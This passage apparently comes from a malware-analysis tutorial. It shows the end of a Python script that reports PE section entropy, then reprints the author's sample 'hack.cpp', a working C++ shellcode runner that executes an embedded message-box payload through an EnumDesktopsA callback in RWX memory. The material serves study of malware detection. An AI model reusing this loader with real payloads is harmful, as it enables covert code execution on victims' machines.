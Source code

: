 ```python
        print("\tvirtual size: " + hex(section.Misc_VirtualSize))
        print("\traw size: " + hex(section.SizeOfRawData))
        print ("\tentropy: " + str(shannon_entropy(section.get_data())))

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-f','--file', required = True, help = "target file")
    args = vars(parser.parse_args())
    target_file = args['file']
    with open(target_file, 'rb') as f:
        sections_entropy(target_file)
```

For simplicity and demonstration purposes this calculate and print just first 3 sections.     

### demo 2

As an sample file I used one of my malware from [this post](/tutorial/2022/06/27/malware-injection-20.html):      

```cpp
/*
 * hack.cpp - run shellcode via EnumDesktopA. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```
